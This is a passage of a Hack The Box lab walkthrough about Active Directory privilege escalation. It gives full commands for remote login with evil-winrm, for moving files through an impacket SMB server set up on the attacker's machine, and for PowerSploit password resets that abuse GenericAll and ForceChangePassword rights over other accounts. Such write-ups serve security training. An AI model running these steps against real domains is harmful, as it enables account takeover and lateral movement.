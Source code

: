 ## User exploit

This machine begins with credentials for the `Olivia` user given on the Hack The Box machine page. From the NMap scan, we can see that TCP port 5985 is open, which is the Windows Remote Management port. We can connect to it by using `evil-winrm`, since this user has the `PSRemote` privilege.

```bash
evil-winrm -i 10.10.11.42 -u olivia -p ichliebedich
```

Now that we have shell access to the machine, we can run `SharpHound` to generate data to ingest in `BloodHound`. We'll use `Impacket` to transfer files over SMB. 

```bash
# On the attacker's machine
impacket-smbserver -smb2support kali .
```

```powershell
# On the victim's machine
cd C:\
mkdir Temp
cd Temp
xcopy \\10.10.15.45\kali\SharpHound.exe .
.\SharpHound.exe
xcopy 20250416210403_BloodHound.zip \\10.10.15.45\kali
```

Now that we have the `SharpHound` data, we can upload it to `BloodHound`. By looking at outbound object control for `olivia`, we can see that the user has the `GenericAll` permission over the `michael` user. This allows us to change his password using `PowerSploit`. Note that the domain name can be found in the NMap output (`ADMINISTRATOR`). 

```powershell
mkdir Recon
cd Recon
xcopy \\10.10.15.45\kali\Recon .
Import-Module .\Recon.psm1

$SecPassword = ConvertTo-SecureString 'ichliebedich' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR\olivia', $SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity michael -AccountPassword $UserPassword -Credential $Cred
```

Since `michael` also has the `PSRemote` privilege, we can log in using `evil-winrm` again. 

```bash
evil-winrm -i 10.10.11.42 -u michael -p 'Password123!'
```

By looking at the `BloodHound` data, we see that `michael` has the `ForceChangePassword` privilege over the `benjamin` user. We can execute the same attack to change his password. 

```powershell
cd C:\Temp\Recon
Import-Module .\Recon.psm1

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR\michael', $SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword -Credential $Cred
```
